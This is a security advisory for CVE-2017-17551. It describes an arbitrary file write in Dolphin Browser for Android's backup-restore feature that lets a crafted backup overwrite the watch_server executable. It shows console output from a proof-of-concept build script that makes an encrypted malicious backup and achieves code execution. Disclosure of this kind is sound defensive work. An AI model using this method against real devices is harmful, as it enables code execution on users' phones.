 ### [VS-2017-001] Dolphin Browser for Android Backup & Restore Arbitrary File Write Vulnerability

```
Download: https://play.google.com/store/apps/details?id=mobi.mgeek.TunnyBrowser&hl=en
CVE: CVE-2017-17551
Author: Benjamin Watson of VerSprite Security
Affected: < 12.0.2
```

#### Vulnerability Details

The Backup and Restore feature in Mobotap's Dolphin Browser for Android 12.0.2, suffers from an arbitrary file write vulnerability when attempting to restore browser settings from a malicious Dolphin Browser backup file. This arbitrary file write vulnerability, allows an attacker to overwrite a specific executable in the Dolphin Browser's data directory with a crafted malicious executable. Every time the Dolphin Browser is launched, it will attempt to run the malicious executable from disk, thus executing the attacker's code.

#### Exploitation

Exploitation occurs when the arbitrary file write is used to overite the `/files/watch_server` executable with a crafted payload.  Once the **Dolphin Browser** is launched, it will always attempt to execute the `watch_server` from disk.

```bash
./build.sh                                                                                                                                                                              130 ↵
[+] Building ... [!]
[armeabi-v7a] Install        : payload => libs/armeabi-v7a/payload
[+] Creating tmp.zip and injecting payload [!]
[+] Launching backup file format generation [!]
[+] Generating cipher [!]
[+] key --> 95acde261f3e09d281498163958dd366
[+] Building backup  --> ./backup.dbk [!]
[+] Encrypting and saving backup [!]
[+] Cleaning up [!]
[+] Pushing backup.dbk to the device [!]
backup.dbk: 1 file pushed. 0.6 MB/s (13926 bytes in 0.024s)
[+] Waiting on restore process ... [!]
--------- beginning of system
--------- beginning of main
V/FlipperFlapper(31220): uid=10177(u0_a177) gid=10177(u0_a177) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50177(all_a177) context=u:r:untrusted_app:s0
```
